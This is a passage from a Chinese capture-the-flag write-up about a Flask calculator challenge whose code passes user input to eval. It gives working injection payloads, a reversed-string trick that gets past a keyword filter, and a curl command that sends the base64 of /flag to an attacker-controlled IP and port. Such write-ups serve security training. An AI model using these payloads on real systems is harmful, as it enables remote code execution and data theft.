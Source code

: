 ```
            result = "Invalid"
        return render_template('index.html', answer=result,question=create_question)
 
    if request.method == 'GET':
        create_question = create()
        session['question'] = create_question
        return render_template('index.html',question=create_question)
 
@app.route('/source')
def source():
        return open("app.py", "r").read()
 
if __name__ == '__main__':
    app.run(host="0.0.0.0", debug=False)
```

可以看到，31行那里把我们的结果和一个表达式进行简单的字符串拼接之后eval直接执行，这就给了我们命令注入的机会；

我们来本地试一下：

```
#python3
import os
 
input_question = '100000='
input = "1,os.system(\'dir\')"
 
calc_result = str((eval(input_question + "=" + str(input))))
print(calc_result)
```

我们发现dir命令确实被执行了，但是题目没有回显，我们就只能用其他方式外带到我们的VPS上面去

那么剩下的就只有绕waf了

fuzz了一下，sys，import，os这些关键词过滤了，但是exec这些没有被过滤

可以考虑字符串拼接或者逆读绕过，这里用的是逆读：

```
import os
 
str = '''os.popen("curl ip:端口/?a=`cat /flag|base64`").read()'''#因为sys倒过来也是sys，所以换成popen
print(str[::-1])
#exec(')(daer.)"`46esab|galf/ tac`=a?/0058:4.751.011.95 lruc"(nepop.so'[::-1])
```

发送payload，监听VPS相应端口，得到flag；

 

### 简单的计算器-2

考点：？？？

看了下源码：
